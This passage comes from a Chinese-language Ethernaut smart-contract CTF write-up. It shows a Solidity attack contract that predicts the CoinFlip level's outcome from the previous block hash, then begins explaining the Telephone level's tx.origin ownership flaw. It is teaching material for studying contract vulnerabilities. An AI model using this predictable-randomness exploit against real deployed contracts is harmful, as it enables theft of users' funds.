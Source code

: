 ``` java

    CoinFlipInterface victim;

  

    constructor(address _victim) {

        victim = CoinFlipInterface(_victim);

    }

    function Attack() public returns (bool) {

        bool guess_ = guess();

        return victim.flip(guess_);

    }

    function guess() public view returns (bool) {

        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;

        bool side = coinFlip == 1 ? true : false;

        return side;

    }

}
```

## 5. 攻击调用图

![[Pasted image 20230511142044.png]]
有时间的朋友可以自己完成十次攻击。
![[Pasted image 20230511141951.png]]



# 第四关：Telephone

## 1. 题目要求
`玩家成为合约的owner`

## 2. 代码功能解读
```
1. 构造器初始化部署者为owner
2. changeOwner(address _owner)方法当tx.origin != msg.sender的时候_owner成为拥有者
```

